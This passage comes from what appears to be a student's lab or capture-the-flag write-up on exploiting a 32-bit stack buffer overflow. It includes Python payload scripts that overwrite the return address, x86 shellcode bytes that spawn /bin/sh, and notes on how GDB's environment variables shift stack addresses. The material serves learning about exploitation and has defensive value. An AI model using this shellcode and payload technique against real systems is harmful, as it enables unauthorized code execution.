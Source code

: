 now our payload script looks like this
```python=
pointer_to_shellcode = "\x16\xf9\xff\xbf"
payload = "A"*140 + pointer_to_shellcode
print(payload)
```

Here is how the address looks like in GDB
![image](https://hackmd.io/_uploads/SkvSsFN4p.png)

The code didnt work and I got some unexpected instructions when I jumped to my shellcode (shown below). turns out when I used the assembler tool, I did not specify the correct architecture (x64 instad of x86) and that same assembly that generated the opcode was different hence the weird instructions in the end. 
![image](https://hackmd.io/_uploads/BkFORF4E6.png)

Of course, I had to get the env pointer again
![image](https://hackmd.io/_uploads/B15DyqNNT.png)


The shellcode.py file is changed to 
`print("\x31\xC0\x31\xDB\x31\xC9\x31\xD2\x68\x6E\x2F\x73\x68\x68\x2F\x2F\x62\x69\x89\xE3\x50\x53\x50\xB0\x0B\xCD\x80")`

And payload.py is changed to
![image](https://hackmd.io/_uploads/B11Vyq4Np.png)

I tested the shellcode in GDB and it did seem that I managed to execute the shell command in that environment.
![image](https://hackmd.io/_uploads/BJCdkqNVp.png)

However, I get segfaults and invalid instructions if I try to launch it without GDB. It should not be the shellcode, so it might have something to do with the payload or the offset.

After some searching, I realized that GDB also adds environemt variables and we all have been building our exploit on the additional environment variables. Which might be causing our payload or offset to be incorrect.

The environment variables added are the `LINES` and `COLUMNS` variable, which is used by GDB internally to determine display dimensions. These variables **DOES NOT** exist if i launch it normally.

Hence, we need to regenerate the payload with a fresh env instead.
![image](https://hackmd.io/_uploads/S1zhE94N6.png)


The new pointer to the shellcode
![image](https://hackmd.io/_uploads/r1QqEq4NT.png)

And the new payload 
```
pointer_to_shellcode = "\xc1\xff\xff\xbf"
payload = "A" *140 + pointer_to_shellcode
print(payload)
```
